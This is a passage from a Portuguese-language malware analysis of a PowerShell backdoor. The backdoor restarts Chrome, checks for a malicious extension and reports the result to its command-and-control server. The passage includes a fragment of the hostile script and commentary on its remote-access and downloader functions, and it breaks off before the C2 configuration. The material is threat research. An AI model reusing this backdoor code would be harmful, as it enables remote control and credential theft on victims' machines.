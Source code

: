```powershell
                # Reabre o Google Chrome
                Write-Host "Reabrindo o Google Chrome..."
                Start-Process -FilePath "C:\Program Files\Google\Chrome\Application\chrome.exe"
                Write-Host "Google Chrome reaberto."

                Start-Sleep -Seconds 15

               if (Test-Path $diretorioExtensoes) {
               $textWriter.WriteLine("OKEXT")
               Write-Host "Encontrado."
              }
             else {
             $textWriter.WriteLine("NOEXT")
             Write-Host "Extensão não encontrada."
             }
             $textWriter.Flush()
             }
            }
      
        } 
        catch {
            Write-Host "Erro ao processar comando: $_"
        }
        Start-Sleep -Milliseconds 50
    }

} catch {
    Write-Host "Erro ao conectar ao servidor: $_"
    exit
}                               
```

A análise do código em questão sugere que ele está em fase de desenvolvimento, dada a presença de trechos comentados e estruturas incompletas. Além disso, há referências a outros scripts maliciosos hospedados no servidor do atacante, indicando uma possível integração com componentes adicionais da campanha. Durante a investigação, o IP associado ao servidor de comando e controle (C2) estava inativo, o que pode apontar para uma infraestrutura temporariamente desativada ou medidas de evasão por parte dos atacantes. Quanto à funcionalidade, o script apresenta múltiplos vetores de ataque:

- Acesso remoto: Capacidade de executar comandos no sistema Windows comprometido (ex.: manipulação de processos, coleta de dados).

- Downloader direcionado: Foco na busca e instalação de uma extensão maliciosa no navegador Chrome, possivelmente disfarçada como um complemento legítimo (ex.: "Chrome Web Store"). Essa extensão poderia ser usada para redirecionar tráfego, capturar credenciais ou injeção de anúncios.

A dualidade de propósitos sugere que o código foi projetado para ser modular, permitindo que os atacantes alternem entre funções conforme a necessidade da campanha.

### **1. Configurações Iniciais e Conexão ao Servidor C2**

No trecho a seguir é passado o IP do servidor de comando e controle (C2), portal principal para a comunição e a porta sencundária.
